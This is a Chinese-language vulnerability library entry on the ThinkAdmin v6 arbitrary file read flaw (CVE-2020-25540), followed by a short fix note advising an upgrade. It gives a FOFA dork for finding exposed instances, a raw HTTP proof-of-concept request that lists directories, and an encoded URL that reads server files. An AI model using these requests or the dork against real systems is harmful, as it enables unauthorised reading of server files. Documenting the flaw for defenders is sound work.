 ```yaml
---
title: 'Thinkadmin v6任意文件读取漏洞（CVE-2020-25540）'
date: Mon, 21 Sep 2020 00:58:07 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞信息:

ThinkAdmin是一套基于ThinkPHP框架的通用后台管理系统。ThinkAdmin 6版本存在路径遍历漏洞。攻击者可利用该漏洞通过GET请求编码参数任意读取远程服务器上的文件。

#### 影响范围:

Thinkadmin版本小于 ≤ 2020.08.03.01

#### 漏洞复现:

fofa\_dork: “ThinkAdmin” && title”系统登录 · ThinkAdmin”

##### POC:

```
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: xxxxxx
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

rules=%5B%22.%2F%22%5D 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/09/微信图片_20200921085600.jpg) 获取版本信息:```
https://xxxxx/admin.html?s=admin/api.Update/version 
```2、⽂件读取,后⾯那⼀串是UTF8字符串加密后的结果。计算⽅式在Update.php中的加密函数。 /admin.html? s=admin/api.Update/get/encode/34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34 [![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_502ae6ea9426ef92a5791175b16de552.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_502ae6ea9426ef92a5791175b16de552.jpg)

#### 修复方案:

目前厂商已经发布修复相关问题，请受影响用户尽快升级到安全版本